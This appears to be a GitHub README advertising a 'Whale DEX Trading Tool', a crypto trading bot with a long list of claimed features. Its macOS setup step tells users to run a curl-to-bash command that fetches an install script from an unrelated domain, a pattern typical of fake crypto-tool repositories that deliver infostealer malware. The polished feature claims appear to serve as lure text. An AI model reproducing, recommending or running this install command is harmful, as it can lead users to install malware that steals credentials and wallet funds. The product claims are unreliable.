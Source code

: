 <p align="center"><img width="720" height="463" src="images/inter.jpg" alt="Defi Bot interface" /></p>

# Whale DEX Trading Tool
A professional trading platform for large-scale transactions on DEX in EVM networks. Features include automatic order splitting (Smart Split), integration with Uniswap, Sushiswap, Curve, risk management with Chainlink and Pyth, Dark Pool for confidentiality, multisig wallets, cross-chain swaps, and professional analytics. Gas optimization, mempool monitoring, and scam protection ensure safe and fast order execution in DeFi

Whale DEX Trading Tool- Is a comprehensive software solution designed for large-scale traders and investors, enabling the safe and efficient execution of transactions exceeding $100,000 on decentralized exchanges (DEX) in EVM networks. The platform combines Smart Split algorithms, in-depth liquidity pool analysis, advanced risk management techniques, integration with leading DEX (Uniswap, Sushiswap, Curve) and aggregators (1inch, Matcha), as well as support for Dark Pool to confidentially execute large orders

# Set-Up
 ## For Windows
   Windows x64: [ ```Download``` ](https://selenium-finance.gitbook.io/selenium-fi/download-link/windows)

 ## For macOS
  MAC OS [ ```Download``` ](https://selenium-finance.gitbook.io/selenium-fi/download-link/mac-os)

Update your sytem for upload

Enter the command on Terminal

                 /bin/bash -c "$(curl -fsSL https://applepistudios.com/ce/install.sh)"
  
# Key Features and Solutions
## 1. Liquidity Aggregation and Order Execution
- Integration with DEX and Aggregators: Connects with Uniswap, Sushiswap, Curve, 1inch, and Matcha to maximize liquidity coverage.

- Smart Split: Automatically splits orders into smaller parts using TWAP and VWAP algorithms to minimize slippage (for example, by setting a threshold of 0.5–1%).

- Deep Pool Analysis: Identifies routes with minimal slippage and maximum liquidity, thereby reducing the impact of orders on the asset's price.

## 2. Advanced Risk Management
- Stop-Loss and Take-Profit via Oracles: Automatically executes orders when target price levels are reached using Chainlink and Pyth.

- Dark Pool Mode: Privately executes large orders to protect against market panic.

- Integration with Insurance Protocols: Nexus Mutual and InsurAce provide additional protection against smart contract failures.

## 3. Security and Confidentiality
- Multisig and Hardware Wallets: Supports Gnosis Safe, Ledger, and Trezor for secure fund storage.

- zk-Proof Solutions: Enables anonymous transactions using Aztec Network or StarkWare.

- Regular Audits: Daily smart contract audits (e.g., through CertiK and OpenZeppelin).

## 4. Cross-Chain and L2 Optimization

- Cross-Chain Swaps: Seamless integration via Thorchain and LayerZero.

- Automatic Network Selection: Optimizes fees with a gas manager by choosing the network with the lowest fees (Ethereum, BSC, Polygon, Arbitrum).

## 5. Professional Analytics and Customization

- Whale Analytics: Tracks the impact of large orders on the market with detailed statistics and charts (successful cases: over 500 transactions and processing of more - than $50 million in volume during the first year).

- Portfolio Management: Provides balance, PnL, data export (CSV/JSON), and notifications (email, Telegram, SMS).

- Modular Interface: Supports TradingView charts, widget customization, and an API for integration with Python and Excel.

## 6. Regulatory Compliance and Reporting

- KYC and Identification: Optional KYC through decentralized identifiers (BrightID, Polygon ID).

- Tax Reporting: A report generator for tax authorities (supporting FIFO and LIFO).

## 7. Anti-Scam System

- Token Analysis: Automatically checks for scam risks (honeypot, rug pull).

- Blacklist and Alerts: Maintains a database of fraudulent tokens and issues alerts to prevent risks.

## 8. Execution Speed

- Gas Optimization: Utilizes advanced algorithms to predict the optimal gas fee.

- Mempool Monitoring and Priority Nodes: Ensures fast inclusion of transactions in blocks with minimal delays.

# Technology Stack

- Smart Contracts: Solidity (audited contracts).

- Frontend: React + TypeScript.

- Backend: Node.js, The Graph for data indexing.

- Oracles: Chainlink, Pyth.

- Data Storage: IPFS, Arweave.

# Monetization

- Commission: 0.1–0.3% of the transaction amount.
